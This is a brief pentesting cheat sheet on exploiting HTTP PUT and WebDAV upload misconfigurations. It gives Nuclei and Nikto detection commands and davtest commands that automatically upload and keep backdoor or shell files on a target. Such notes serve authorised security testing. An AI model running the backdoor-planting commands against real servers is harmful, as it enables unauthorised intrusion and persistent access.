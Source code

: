 # PUT Upload

## 01 - Nuclei

Find a misconfiguration HTTP option to upload files.

```
$ nuclei -u <URL> -t ~/nuclei-templates -id put-method-enabled
```

## 02 - Nikto

```
$ nikto -h <URL> -Plugins put_del_test
```

# 03 - Davtest

Upload backdoor automatically in each test.

```
$ davtest [-auth user:password] -sendbd auto -url http[s]://<IP>
```

Choose method to upload file for the executable file extension.

```
$ davtest [-auth user:password] -copy -sendbd auto -url http[s]://<IP>

$ davtest [-auth user:password] -move -sendbd auto -url http[s]://<IP>
```

Delete everything uploaded except for backdoor/shell files.

```
$ davtest -cleanup -url http[s]://<IP>
```

---
## References

- [Davtest](https://github.com/cldrn/davtest)

- [Hacktricks: PUT Method WebDAV](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/put-method-webdav)

- [Arridae: Exploiting HTTP PUT method](https://www.arridae.com/blogs/HTTP-PUT-method.php)